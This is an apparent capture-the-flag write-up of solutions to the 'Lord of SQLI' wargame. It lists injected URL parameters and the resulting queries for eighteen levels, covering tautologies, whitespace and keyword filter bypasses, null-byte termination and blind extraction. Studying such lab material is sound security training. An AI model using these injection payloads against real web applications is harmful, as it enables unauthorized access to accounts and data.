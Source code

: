 ```yaml
---
description: 'https://los.rubiya.kr/'
---
```


# Lord of SQLI

## 1. Gremlin

URL Solution: ?pw=' OR ''= '

QUERY: select id from prob\_gremlin where id='' and pw='' OR '1'= '1'

## 2. Cobolt

URL: ?pw='\) OR \( id = 'admin

QUERY: select id from prob\_cobolt where id='' and pw=md5\(''\) OR \( id = 'admin'\)

## 3. Goblin

URL: ?no=no OR 1=1 ORDER BY id

QUERY: select id from prob\_goblin where id='guest' and no=no OR 1=1 ORDER BY id

---

URL: ?no=0 or id=0x61646d696e

QUERY: select id from prob\_goblin where id='guest' and no=0 or id=0x61646d696e

## 4. Orc

Using the ‘or’ operator and SUBSTR method Blind-SQLI can be executed to gain info. The passwords length is 8 characters. Script attached.

URL: 095a9852

QUERY: select id from prob\_orc where id='admin' and pw='095a9852'

## 5. Wolfman

URL: ?pw=%27or%0Aid=%27admin

QUERY: select id from prob\_wolfman where id='guest' and pw=''or id='admin'

The challenge in this case was to encode the whitespaces with %0A

## 6. Dark Elf

URL: ?pw=%27%20\|\|%20id=%27admin

QUERY: select id from prob\_darkelf where id='guest' and pw='' \|\| id='admin'

Introducing \|\| to mark OR

## 7. Orge

URL: ?pw=7b751aec

QUERY: select id from prob\_orge where id='guest' and pw='7b751aec'

Solvable using the script from orc, after modifying OR, AND. Script attached.

## 8. Troll

URL: ?id=admIn

QUERY: select id from prob\_troll where id='admIn'

SQL is not case sensitive!!

## 9. Vampire

URL: ?id=adADMINmin

QUERY: select id from prob\_vampire where id='admin'

Blacklisting is shit

## 10. Skeleton

URL: ?pw=%27or%20id=%27admin%27%20or%20%27%27=%27

QUERY: select id from prob\_skeleton where id='guest' and pw=''or id='admin' or ''='' and 1=0

## 11. Golem

URL: ?pw=77d6290b

QUERY: select id from prob\_golem where id='guest' and pw='77d6290b'

Another Blind SQLi Losers say:

* replace = with NOT x &lt;&gt; y
* instead of SUBSTR with LENGTH to find the length and LIKE to create the query

winners say:

* replace = with LIKE
* replace SUBSTR with MID 

Script attached.

## 12. Dark Knight

URL: ?pw=0b70ea1f

QUERY: select id from prob\_darkknight where id='guest' and pw='0b70ea1f' and no=

Another Blind SQLi

* “no” inject parameter like in Goblin
* replace ' with "

Script attached.

## 13. Bugbear

URL: ?pw=52dc3991

QUERY: select id from prob\_bugbear where id='guest' and pw='52dc3991' and no=

Another Blind SQLi

Script attached.

## 14. Giant

URL: ?shit=%0B  
  
QUERY: select 1234 from prob\_giant where 1  
  
 `|\n|\r|\t` were blacklisted, so we used /v instead. /f works too.

## 15. Assassin

URL: ?pw=\_\_2%

QUERY: select id from prob\_assassin where pw like '\_\_2%'

This time the script had to scrape for a character in the password that is unique to the admin.

Script attached.

## 16. Succubus

URL: ?id=\&pw= or true %23

QUERY: select id from prob\_succubus where id='\' and pw=' or true \#'

This time we couldnt use ticks. So, we turned id to be unusable and using password and commenting out the last tick we got in.

## 17. Zombie-Assassin

URL: ?id="&pw=%23 eurt RO

QUERY: select id from prob\_zombie\_assassin where id='"\' and pw='OR true \#'

Same thing with srtrev\(\)

## 18. Nightmare

URL: ?pw='\)=0;%00

QUERY: select id from prob\_nightmare where pw=\(''\)=0;'\) and id!='admin'

Who knew:

* Terminate the rest of the query with %00
* Empty string equals to 0;

